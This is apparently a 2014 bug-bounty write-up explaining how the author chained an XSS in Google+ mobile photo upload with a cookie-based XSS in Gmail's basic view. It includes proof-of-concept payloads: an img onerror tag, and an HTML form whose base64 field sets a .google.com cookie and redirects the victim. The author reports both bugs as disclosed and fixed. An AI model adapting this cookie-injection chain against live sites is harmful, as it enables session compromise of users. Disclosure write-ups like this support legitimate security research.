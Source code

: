 ```yaml
---
title: "Gmail and Google+ - tale of two XSS-es"
date: "2014-06-14"
description: "A story of two XSS-es; including one via cookie"
---
```


Note: you can also read [Polish version of this post](http://sekurak.pl/xss-owanie-google-a-czyli-opowiesc-o-dwoch-xss-ach/) on Sekurak

In this post I'll show you two XSS-es I've found in Google services: Gmail and Google+. In particular, I'll explain why I needed the second one to exploit the first one and why XSS-es within cookies do matter.

### Gmail

Gmail is one of the most recognized Google services. It comes in many different views, including [Basic HTML](http://mail.google.com/mail/h/) and [old mobile view](http://mail.google.com/mail/x/). The XSS I'm going to describe happened within both aforementioned versions. While they don't offer full function set of the original Gmail application, you can still accomplish basic tasks, including viewing and sending messages and, most importantly, applying labels.

For the sake of the example, let me try set a `<test>` label.

[![](http://sekurak.pl/wp-content/uploads/2014/04/gmail-image1.png)](http://sekurak.pl/wp-content/uploads/2014/04/gmail-image1.png)

When everything goes fine, Gmail let you know in a notification that a conversation has been labelled.

[![](http://sekurak.pl/wp-content/uploads/2014/04/gmail-image2.png)](http://sekurak.pl/wp-content/uploads/2014/04/gmail-image2.png)

When looking around http communication, I noticed that content of the notification is actually put in a cookie.

[![](http://sekurak.pl/wp-content/uploads/2014/04/gmail-image3-600x126.png)](http://sekurak.pl/wp-content/uploads/2014/04/gmail-image3-600x126.png)

What immediately caught my attention was that the cookie contained *&lt;* and *&gt;* html entities. It was then natural to check if it's possible to insert a custom tag, for example `<img src=1 onerror=alert(1)>`.

[![](http://sekurak.pl/wp-content/uploads/2014/04/gmail-image4-600x130.png)](http://sekurak.pl/wp-content/uploads/2014/04/gmail-image4-600x130.png)

Unfortunately it didn't work and server response was code 500. I thought that the character `>` might have been responsible for that since, as you can see, it is used in the cookie for other purposes. Perhaps the cookie was splitted by `>` and some server-side error happened when there was one more _greater-than_ character than expected. So let's just modify the payload and remove the unfortunate character.

[![](http://sekurak.pl/wp-content/uploads/2014/04/gmail-image5-600x116.png)](http://sekurak.pl/wp-content/uploads/2014/04/gmail-image5-600x116.png)

[![](http://sekurak.pl/wp-content/uploads/2014/04/gmail-image6-600x274.png)](http://sekurak.pl/wp-content/uploads/2014/04/gmail-image6-600x274.png)

Great! The alert fired so I have an XSS on mail.google.com.

There is still one major problem though. In order to exploit this vulnerability, I need to be able to set arbitrary cookies in victim's browser. This is not normally possible and requires another vulnerability, one of the following:

- HTTP response splitting,
- Unrestricted Set-Cookie ([example](http://miki.it/blog/2013/9/15/xsrf-cookie-setting-google/)),
- Another XSS.

The first two vulns are pretty rare so let's just focus on the third one. Remember what attributes might a `Set-Cookie` contain? One of them is `Domain`. So when you issue a header:

```
Set-Cookie: Test=test; Domain=.google.com
```

... you create a cookie which is sent to any subdomain of google.com. Thus I need to find another XSS on any other Google subdomains and use it set a cookie to exploit Gmail. Google has like a gazillion of services so it shouldn't be that hard ;)

### Google+

And I was lucky to find another XSS - in Google+. Just as in Gmail, this one happened not in a main view but in [mobile](https://plus.google.com/app/basic/stream).

This time, uploading photos is vulnerable. I noticed that in upload request there are two big base64 http parameters: `puSuccessResponse` and `puFailureResponse`.

[![](http://sekurak.pl/wp-content/uploads/2014/04/gmail-image7.png)](http://sekurak.pl/wp-content/uploads/2014/04/gmail-image7.png)

So let's decode them:

[![](http://sekurak.pl/wp-content/uploads/2014/04/gmail-image8.png)](http://sekurak.pl/wp-content/uploads/2014/04/gmail-image8.png)

It turned out that the values contain full html output of server response after the upload is finished. As you can guess, `puSuccessResponse` is rendered when everything goes fine and `puFailureResponse` when it fails. What is even more funny is that the request contained CSRF token (parameter `at`) but when the token was incorrect, server responds code 500 and still `puFailureResponse` was rendered!

It was that easy, let's just check a standard example with `alert(1)`:

[![](http://sekurak.pl/wp-content/uploads/2014/04/gmail-image10.png)](http://sekurak.pl/wp-content/uploads/2014/04/gmail-image10.png)

Now let's just put all the stuff together.

Check out the code:

```html
<html>
  <body>
    <form
      action="https://plus.google.com/\_/upload/app/basic/photos?cbp=&amp;cid=5&amp;soc-app=115&amp;soc-platform=1"
      method="POST"
      enctype="multipart/form-data"
    >
      <input type="hidden" name="puSuccessResponse" value="aGVq" />
      <input
        type="hidden"
        name="puFailureResponse"
        value="PHNjcmlwdD4KYWxlcnQoIkR1ZGUsIHlvdSdyZSBYU1MtZWQgb24gIitkb2N1bWVudC5kb21haW4pOwpkb2N1bWVudC5jb29raWU9IkdNQUlMX05PVEk9dGwxPjxpbWcrc3JjJTNkMStvbmVycm9yJTNkJTIyYWxlcnQoJ0FuZCtub3crb24rJyUyYmRvY3VtZW50LmRvbWFpbiklMjIreDsgIERvbWFpbj0uZ29vZ2xlLmNvbTsgUGF0aD0vIjsKZG9jdW1lbnQubG9jYXRpb24gPSAiaHR0cHM6Ly9tYWlsLmdvb2dsZS5jb20vbWFpbC94LyI7ICAgCjwvc2NyaXB0PiAg"
      />
      <input type="submit" value="Double XSS!" />
    </form>
  </body>
</html>
```

Where `puFailureResponse` is decoded to:

```html
<script>
  alert("Dude, you're XSS-ed on " + document.domain);
  document.cookie =
    "GMAIL_NOTI=tl1><img+src%3d1+onerror%3d%22alert('And+now+on+'%2bdocument.domain)%22+x;  Domain=.google.com; Path=/";
  document.location = "https://mail.google.com/mail/x/";
</script>
```

Let's see what's going to happen:

- An alert on plus.google.com will be shown,
- Cookie GMAIL_NOTI is set so that mail.google.com will be XSS-ed.
- User is immediately redirected to mail.google.com allowing the XSS to fire.

You can see a proof that it all worked in a video below :)

<iframe width="320" height="266" src="https://www.youtube.com/embed/gvCQmpfR2KE" title="Gmail and Google Plus - double XSS" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

Both issues was reported to Google in March 2014 and have already been fixed. Big thanks to Google Security Team for running their [bounty program](http://www.google.pl/about/appsecurity/reward-program/), which is a great way to enhance one's skills.
